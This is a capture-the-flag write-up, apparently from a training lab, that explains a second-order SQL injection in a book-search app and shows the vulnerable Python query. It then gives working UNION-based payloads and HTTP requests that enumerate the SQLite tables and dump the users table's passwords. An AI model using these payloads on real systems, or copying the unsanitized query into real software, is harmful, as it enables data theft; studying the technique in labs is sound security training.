 # Challenge 12: Vulnerable Startup: Book Title 2

> In this challenge, the application performs a query early in the process. It then uses the result from the first query in the second query later without sanitization. Both queries are vulnerable, and the first query can be exploited through blind SQL injection. However, since the second query is also vulnerable, it is possible to simplify the exploitation and use UNION based injection instead of Boolean-based blind injection; making the exploitation easier and less noisy. The goal of the task is to abuse this vulnerability without using blind SQL injection and retrieve the flag.

The goal of the challenge is to execute a second-order SQL injection attack to retrieve the flag. An initial query is executed and its results are used in a second query. The initial query can be executed blindly and the second query isn't blind. The challenge is to leverage the first query to inject into the second query to retrieve the flag.

The description gives the two queries. In the book search function at `/book?title=$TITLE`, the backend first executes a query to get the book ID of a single book that begins with `$TITLE`, case-insensitive. It then retrieves the entire row with that book ID.

```python
bid = db.sql_query(f"SELECT id FROM books WHERE title like '{title}%'", one=True)
if bid:
    query = f"SELECT * FROM books WHERE id = '{bid['id']}'"
```

To inject into the second query, one has to be able to manipulate the response from the first query. This seems possible by injecting a `UNION SELECT` statement. Since the backend application code that executes the first query only takes the first row (indicated by the `one=True` parameter passed into the `db.sql_query()` function), it is paramount that the injected string is ordered before the actual book ID in the resultant row set. This can be achieved via an `ORDER BY 1 ASC` or `ORDER BY 1 DESC` clause.

The first injection:

```sql
SELECT id FROM books WHERE title like '%' UNION SELECT '2' ORDER BY 1 DESC--%'
```

Which results in the second injection:

```sql
SELECT * FROM books WHERE id = '2'
```

The request:

```http
GET /challenge7/book?title=%'+UNION+SELECT+'2'+ORDER+BY+1+DESC-- HTTP/1.1
Host: 10.10.117.172:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.117.172:5000/challenge7/book?title=test
Cookie: session=.eJyrVkrOSMzJSc1LTzWPLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHokbmg.YRAuIw.xCLFXd0gukPKf86TSY3qmUuGtRo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

This injection results in the book titled `Booktitle` being rendered, indicating that the injection was successful.

The next step is to determine how many columns are being returned from the second query. Use the incremental `ORDER BY` method, which will result in the following injections:

```sql
SELECT id FROM books WHERE title like '%' UNION SELECT '1'' ORDER BY 1--' ORDER BY 1 DESC--%'
```

```sql
SELECT * FROM books WHERE id = '1' ORDER BY 1--'
```

```http
GET /challenge7/book?title=%'+UNION+SELECT+'1''+ORDER+BY+5--'+ORDER+BY+1+DESC-- HTTP/1.1
Host: 10.10.117.172:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.117.172:5000/challenge7/book?title=test
Cookie: session=.eJyrVkrOSMzJSc1LTzWPLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHokbmg.YRAuIw.xCLFXd0gukPKf86TSY3qmUuGtRo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Ordering by indexes 1-4 results in the book `Harry Potter and the Philosopher's Stone` being returned, whereas ordering by index 5 results in no book being returned. This indicates that the database is throwing an error and not returning any rows because there is no row at index 5, which in turn indicates that there are 4 rows in the resultant row set.

Based on the first query, one of these rows is `id`. Based on the rendered output from the query, the remaining three rows are probably `title`, `description`, and `author`. The latter three rows are almost certainly of type string as well.

Confirm that it is possible to inject and receive output via a `UNION SELECT` on the second injection.

```sql
SELECT id FROM books WHERE title like '%' UNION SELECT '1'' UNION SELECT 1,''a'',''b'',''c''--' ORDER BY 1 DESC--%'
```

```sql
SELECT * FROM books WHERE id = '1' UNION SELECT 1,'a','b','c'--'
```

```http
GET /challenge7/book?title=%'+UNION+SELECT+'1''+UNION+SELECT+1,''a'',''b'',''c''--'+ORDER+BY+1+DESC-- HTTP/1.1
Host: 10.10.117.172:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.117.172:5000/challenge7/book?title=test
Cookie: session=.eJyrVkrOSMzJSc1LTzWPLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHokbmg.YRAuIw.xCLFXd0gukPKf86TSY3qmUuGtRo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Success!

![](Pasted%20image%2020210808155838.png)

Determine the names of the non-SQLite system tables.

```sql
SELECT id FROM books WHERE title like '%' UNION SELECT '1'' UNION SELECT 1,''a'',name,''c'' FROM sqlite_master WHERE type=''table'' AND name NOT LIKE ''sqlite_%''--' ORDER BY 1 DESC--%'
```

```sql
SELECT * FROM books WHERE id = '1' UNION SELECT 1,'a',name,'c' FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%'--'
```

```http
GET /challenge7/book?title=%'+UNION+SELECT+'1''+UNION+SELECT+1,''a'',name,''c''+FROM+sqlite_master+WHERE+type=''table''+AND+name+NOT+LIKE+''sqlite_%''--'+ORDER+BY+1+DESC-- HTTP/1.1
Host: 10.10.117.172:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.117.172:5000/challenge7/book?title=test
Cookie: session=.eJyrVkrOSMzJSc1LTzWPLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHokbmg.YRAuIw.xCLFXd0gukPKf86TSY3qmUuGtRo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

There are three tables: `books`, `notes`, and `users`.

![](Pasted%20image%2020210808160310.png)

Dump each table's `CREATE TABLE` statement to determine its number of columns, column names, and column types.

```sql
SELECT id FROM books WHERE title like '%' UNION SELECT '1'' UNION SELECT 1,''a'',sql,''c'' FROM sqlite_master WHERE type=''table'' AND name NOT LIKE ''sqlite_%''--' ORDER BY 1 DESC--%'
```

```sql
SELECT * FROM books WHERE id = '1' UNION SELECT 1,'a',sql,'c' FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%'--'
```

```http
GET /challenge7/book?title=%'+UNION+SELECT+'1''+UNION+SELECT+1,''a'',sql,''c''+FROM+sqlite_master+WHERE+type=''table''+AND+name+NOT+LIKE+''sqlite_%''--'+ORDER+BY+1+DESC-- HTTP/1.1
Host: 10.10.117.172:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.117.172:5000/challenge7/book?title=test
Cookie: session=.eJyrVkrOSMzJSc1LTzWPLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHokbmg.YRAuIw.xCLFXd0gukPKf86TSY3qmUuGtRo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

#### `books`

```sql
CREATE TABLE books (
    id integer primary key,
    title text not null,
    description text not null,
    author text not null
)
```

#### `notes`

```sql
CREATE TABLE notes (
    id integer primary key,
    username text not null,
    title text not null,
    note text not null
)
```

#### `users`

```sql
CREATE TABLE users (
    id integer primary key,
    username text unique not null,
    password text not null
)
```

Based on past experiences in this room, the flag is likely in the `users` table. Dump it.

```sql
SELECT id FROM books WHERE title like '%' UNION SELECT '1'' UNION SELECT 1,id,username,password FROM users--' ORDER BY 1 DESC--%'
```

```sql
SELECT * FROM books WHERE id = '1' UNION SELECT 1,id,username,password FROM users--'
```

```http
GET /challenge7/book?title=%'+UNION+SELECT+'1''+UNION+SELECT+1,id,username,password+FROM+users--'+ORDER+BY+1+DESC-- HTTP/1.1
Host: 10.10.117.172:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.117.172:5000/challenge7/book?title=test
Cookie: session=.eJyrVkrOSMzJSc1LTzWPLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHokbmg.YRAuIw.xCLFXd0gukPKf86TSY3qmUuGtRo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

The flag is `admin`'s password.

![](Pasted%20image%2020210808161045.png)
